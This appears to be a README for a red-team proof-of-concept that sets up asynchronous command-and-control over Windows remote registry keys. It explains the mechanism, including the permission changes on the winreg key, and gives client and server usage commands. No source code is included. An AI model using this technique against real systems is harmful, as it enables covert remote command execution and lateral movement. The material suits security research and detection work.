 # Everything Is A Shell
or rather...
# Everyhing is an asynchronous shell

This repository is made to explore some uncommon ways for establishing command and control (c2) on Microsoft Windows systems. 

The reverse shells in this repository are asynchronous just like Cobalt Strikes shells. Asyncronous, meaning that the client and server will not communicate all the time like a standard netcat/meterpreter reverse shell. Instead, the client will check-in for any new commands from the server. If a command is found, it will execute it and post the output back to the server. The checkin-interval is a sleep timer just like Cobalt Strikes. 

At this moment, the repository only has a C2 using Windows Registry keys, but more will hopefully be added in the future. 

## C2 using Windows registry keys

### Short description: 
This reverse shell is based on Windows Registry keys. Windows allows for certain users to read, write and/or delete registry keys on remote systems using the WinReg Protocol (MS-RRP), which is build on top of the RPC protocol: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server relationsship by having certain registry keys located on the server that the client can interact with.  

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to connect/read/write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, it should only be suitable for lateral movement on local networks, however I have not tested it over the internet. 

### How it works:
1. When the server starts, the Remote Registry Service is enabled. 
2. The registry key HKEY_LOCAL_MACHINE\Software\RegistryC2\<user-defined name> is created along with the following registry values: cmd, output & sleep. 
3. Permissions are then set for the user "Everyone" on the newly created registry key and, importantly, the registry key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that the client can authenticate to the server and has access to the relevant registry values. On exiting the server, the permissions are removed again. 
4. The client will then check for the value at "sleep" to determine how often to check it. 
5. The client checks the "cmd" value at the server, executes it and writes the result to the output value on the server. 
6. While running, the server will look for new updates to the "output" value and prints it back to the attacker.

### Usage:
**Setup the server (listener):**
``` 
RegC2Server.exe <Unique Registry key name to use>
RegC2Server.exe dc01
```
**Client-side:**
```
RegC2Client.exe <host> <Registry name to use>
RegC2Client.exe dc01 ws01
```

**Since this is a POC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <cmd>        cmd to execute
exit             Exit the application gracefully
```


### Screenshot:


Win32 apis 

Wireshark traffic

intro to shell, usage. 
